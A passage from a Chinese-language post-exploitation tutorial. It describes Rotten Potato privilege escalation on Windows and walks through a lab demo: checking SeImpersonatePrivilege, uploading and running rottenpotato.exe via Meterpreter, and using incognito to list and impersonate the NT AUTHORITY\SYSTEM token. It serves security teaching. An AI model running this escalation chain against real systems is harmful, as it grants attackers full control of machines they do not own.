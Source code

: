 ②借助本地`RPC135`端口，对BITS对象的认证过程执行中间人攻击(NTLM Relay)，同时调用相关 API 为 `NTAUTHORITY\SYSTEM` 账户在本地生成一个访问令牌。

③通过 `NTAUTHORITY\SYSTEM` 账户的令牌创建新进程，以获取SYSTEM权限。

##### 实验演示

假设已通过 `MetaSploit` 获取了**低权限**

![image-20241009152006261](https://image.201068.xyz/assets/38.后渗透/image-20241009152006261.png)

###### 看到账户拥有特权

执行下列命令可以看到当前账户拥有  `SelmpersonatePrivilege` 特权

```python
shell
chcp 65001
whoami /priv
```

![image-20241009152051286](https://image.201068.xyz/assets/38.后渗透/image-20241009152051286.png)

通过 WebShell 上线 MetaSploit，此时加载 `incognito` 模块还**不能列举出高权限用户的令牌**

###### 上传利用程序

向目标主机**上传Rotten Potato的利用程序**（实战中需注意目录权限），并通过以下命令在 Meterpreter 中运行

```python
exit
upload /root/tools/windows/RottenPotato/rottenpotato.exe

execute -Hc -f rottenpotato.exe
```

![image-20241009152326898](https://image.201068.xyz/assets/38.后渗透/image-20241009152326898.png)

![image-20241009162852958](https://image.201068.xyz/assets/38.后渗透/image-20241009162852958.png)

###### 举出令牌

运行 `RottenPotato.exe` 后，再次执行下列命令，就能成功列举出`NTAUTHORITY\SYSTEM`账户的令牌。

```python
load incognito
list_tokens -u
```

![image-20241009162734875](https://image.201068.xyz/assets/38.后渗透/image-20241009162734875.png)

###### 伪造该令牌

然后使用 `impersonate_token` 伪造该令牌，即可获取SYSTEM权限

```python
impersonate_token "NT AUTHORITY\SYSTEM"
```
